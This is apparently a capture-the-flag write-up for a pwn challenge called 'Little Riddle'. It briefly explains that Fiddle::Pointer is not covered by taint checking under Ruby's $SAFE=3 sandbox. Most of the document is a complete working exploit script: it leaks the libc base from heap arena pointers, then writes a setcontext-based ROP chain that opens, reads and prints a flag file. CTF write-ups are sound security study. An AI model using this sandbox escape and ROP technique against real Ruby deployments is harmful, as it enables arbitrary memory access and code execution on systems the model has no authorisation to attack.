 ## Little Riddle (pwn)

This challenge was about bypassing `$SAFE=3` sandbox which is obsolete in Ruby 2.3 and above.

The bad news is that there are [some restrictions](http://phrogz.net/programmingruby/taint.html) due to safe level but there is also a good news:  
[`Fiddle::Pointer`](https://docs.ruby-lang.org/en/2.2.0/Fiddle/Pointer.html) doesn't have any taint checking and it can be used to read and write arbitrary memory!

Here is my exploit:  
```ruby
libc_offset = {
  "read" => 0xf7250,
  "open" => 0xf7030,
  "write" => 0xf72b0,
  "exit" => 0x3a030,
  "setcontext" => 0x47b75,
  "pop_rdi_ret" => 0x21102,
  "pop_rsi_ret" => 0x202e8,
  "pop_rdx_ret" => 0x1150a6,
  "ret" => 0x21103,
  "main_arena" => 0x3c4b20
}

# allocate a chunk
a = Fiddle::Pointer.malloc(1)
puts "a = 0x%x" % a.to_i

# get its arena
arena = Fiddle::Pointer.new(a.to_i & 0xfffffffffc000000)[0, 8].unpack("Q")[0]
puts "arena = 0x%x" % arena

# get address of main_arena
main_arena = Fiddle::Pointer.new(arena + 0x868)[0, 8].unpack("Q")[0]
puts "main_arena = 0x%x" % main_arena.to_i

# get libc base
libc_base = main_arena - libc_offset["main_arena"]
puts "libc base = 0x%x" % libc_base

# read flag
[1].each{
  ptr = Fiddle::Pointer.malloc(0x200, libc_base + libc_offset["setcontext"])

  payload = ""
  payload << "/home/p31338/flag".ljust(0xa0, "\0")
  payload << [ptr.to_i + 0xb0].pack("Q*")  # rsp
  payload << [libc_base + libc_offset["ret"]].pack("Q") * 10
  payload << [libc_base + libc_offset["pop_rdi_ret"], ptr.to_i].pack("Q*")
  payload << [libc_base + libc_offset["pop_rsi_ret"], 0].pack("Q*")
  payload << [libc_base + libc_offset["open"]].pack("Q")
  payload << [libc_base + libc_offset["pop_rdi_ret"], 7].pack("Q*")
  payload << [libc_base + libc_offset["pop_rsi_ret"], ptr.to_i].pack("Q*")
  payload << [libc_base + libc_offset["pop_rdx_ret"], 0x40].pack("Q*")
  payload << [libc_base + libc_offset["read"]].pack("Q*")
  payload << [libc_base + libc_offset["pop_rdi_ret"], 1].pack("Q*")
  payload << [libc_base + libc_offset["pop_rsi_ret"], ptr.to_i].pack("Q*")
  payload << [libc_base + libc_offset["pop_rdx_ret"], 0x40].pack("Q*")
  payload << [libc_base + libc_offset["write"]].pack("Q*")
  payload << [libc_base + libc_offset["exit"]].pack("Q")
  ptr[0, payload.length] = payload
}
GC.start
__END__
```